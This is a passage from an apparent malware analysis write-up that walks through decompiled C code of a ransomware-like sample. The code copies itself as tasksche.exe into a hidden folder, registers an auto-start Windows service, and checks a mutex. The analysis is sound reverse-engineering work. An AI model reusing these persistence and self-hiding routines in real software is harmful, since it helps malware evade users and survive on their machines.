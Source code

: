 As the call's return is flipped in the if statement, if this succeeds, the program will move onto the next if statement's call: 
```c
(CopyFileA(FileNameSelf, FileName, 0), GetFileAttributesA(FileName) == -1)`
```
This is a short call that will attempt to copy itself to the file `tasksche.exe`, incidentally the same file name as used in the first binary. The final location will be in the previously created hidden folder, as the process's context was changed to there during the creation of the hidden folder.

### HideBinary
The next and final function ran in the if statement evaluation is the `HideBinary` function. 

```c
GetFullPathNameA(FileName, 520u, Buffer, 0);  // Copies self to hidden directory, launches self from there
return CreateSelfService(Buffer) && SingleInstanceCheck(60)
    || CreateSelfProcess(Buffer, 0, 0) && SingleInstanceCheck(60);
```
This is a short function, and nothing that interesting is done here. If we look at the `CreateSelfService` function, the main point of interest is the following:
```c
sprintf(service_command, "cmd.exe /c \"%s\"", a1);
new_service = CreateServiceA(
                hSCManager,
                random_name,                // Service name
                random_name,                // Display name
                0xF01FFu,                   // SERVICE_ALL_ACCESS
                0x10u,                      // SERVICE_WIN32_OWN_PROCESS
                2u,                         // SERVICE_AUTO_START
                1u,
                service_command,
                0,
                0,
                0,
                0,
                0);
...
StartServiceA(new_service, 0, 0);
```
The executable will create a service that will launch itself with the help of the Windows command prompt. After this, it will check the `SingleInstanceCheck` function, which will attempt to open a mutex to confirm it is the only instance of the process running. The `CreateSelfProcess` attempt to run itself again, this time as a process.

Now, after the  `HideBinary()` function, we get to the meat of the main function.

### Inside the if statement
The first thing the binary does it set its current directory to that of the executable file, I assume the point here is that the current context gets changed during the if statement test functions.
```c
if ( strrchr(FileNameSelf, '\\') )            // Checks if the fileNameSelf ends in a backslash
  *strrchr(FileNameSelf, '\\') = 0;
SetCurrentDirectoryA(FileNameSelf);
```
After changing the context, the executable will run the `CreateRegisteryKey` function, passing a 1 to it. Let's take a closer look at it.
### CreateRegisteryKey
